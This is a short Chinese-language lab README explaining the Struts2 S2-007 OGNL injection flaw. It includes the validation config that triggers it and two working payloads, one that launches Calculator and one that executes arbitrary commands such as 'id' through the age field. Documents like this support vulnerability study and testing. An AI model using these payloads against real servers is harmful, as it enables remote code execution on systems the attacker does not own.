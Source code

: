 # S2-007 远程代码执行漏洞

影响版本: 2.0.0 - 2.2.3
漏洞详情: http://struts.apache.org/docs/s2-007.html

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 <ActionName>-validation.xml 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 "'" + value + "'" 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Exploit

@rickgray 在原文中只给了弹计算器的POC，我给出执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：

![](1.jpeg)